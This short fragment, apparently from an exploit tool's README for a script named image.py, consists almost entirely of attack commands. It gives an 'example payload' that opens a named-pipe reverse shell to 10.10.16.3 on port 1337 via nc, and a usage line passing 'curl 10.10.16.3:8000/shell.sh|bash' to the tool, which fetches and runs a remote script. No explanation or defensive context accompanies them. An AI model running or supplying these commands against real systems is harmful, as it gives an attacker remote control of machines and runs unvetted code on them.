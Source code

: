 Example payload:
```bash
#!/bin/bash
rm /tmp/wk;mkfifo /tmp/wk;cat /tmp/wk|/bin/sh -i 2>&1|nc 10.10.16.3 1337 >/tmp/wk
```

Usage:
```bash
python3 image.py "curl 10.10.16.3:8000/shell.sh|bash"
```
